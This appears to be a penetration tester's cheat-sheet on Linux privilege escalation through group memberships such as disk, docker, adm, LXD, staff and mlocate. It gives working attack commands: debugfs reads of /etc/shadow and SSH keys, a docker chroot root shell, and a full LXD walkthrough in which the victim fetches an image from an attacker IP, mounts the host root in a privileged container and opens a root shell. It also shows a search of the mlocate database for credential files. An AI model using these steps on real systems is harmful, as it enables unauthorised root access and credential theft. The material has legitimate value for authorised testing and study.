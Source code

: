 https://steflan-security.com/linux-privilege-escalation-exploiting-user-groups/

Can be exploited
    sudo/admin/wheel
    video
    disk
	    df -h
	    then
	    whatever filesystem is mounted on /
	    debugfs <file_system>
	    mkdir test
	    cat <whatever_file_we_want> (consider ssh files, /etc/shadow, etc)
    shadow
    adm
	    can read /var/log/*
    docker
	    `docker images
	    then
	    `docker run -v /:/mnt --rm -it <image> chroot /mnt sh``
    LXC/LXD

## LXD
LXD is a root process that carries out actions for anyone with write access to the LXD UNIX socket. There are multiple ways to exploit this

LXD PrivEsc
```bash
## ON ATTACK_BOX
# Install tools
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools  

# Clone repo  
git clone https://github.com/lxc/distrobuilder  

# Make distrobuilder  
cd distrobuilder  
make  

# Prepare the creation of alpine  
mkdir -p $HOME/ContainerImages/alpine/  
cd $HOME/ContainerImages/alpine/  
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml  

# Create the container  
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18

# Start http server 
python3 -m http.server <port>

________________________________
## ON VICTIM

# Transfer to target
wget <attack_ip>:<port>/lxd.tar.xz
wget <attack_ip>:<port>/rootfs.squashfs

# Add Image
/snap/bin/lxc  image import lxd.tar.xz rootfs.squashfs --alias alpine

# Verify
/snap/bin/lxc image list

# Start lxc init
/snap/bin/lxc init
	# Enter for all questions

/snap/bin/lxc init alpine privesc -c security.privileged=true

/snap/bin/lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

# Start privesc
snap/bin/lxc start privesc

# Execute root shell
/snap/bin/lxc exec privesc /bin/sh
```


## staff
https://binaryregion.wordpress.com/2021/09/22/privilege-escalation-linux-staff-group/
allows users to add /usr/local modifications without root priv


## mlocate

`find / -group mlocate 2>/dev/null | grep -v '^/proc\|^/run\|^/sys\|^/snap'`
	this will reveal the location of the mlocate database which contains all the files we may need
`strings mlocate.db`
	this reveals all the files that can be LOCATED
	may need to transfer back mloacte.db to KALI machine to run `strings` on it
example usage
	`strings mlocate.db | grep creds`
		creds-for-2022.txt
		we now know this file exists somewhere
		locate may uncover its location but if permissions are insufficient, locate will still not work
		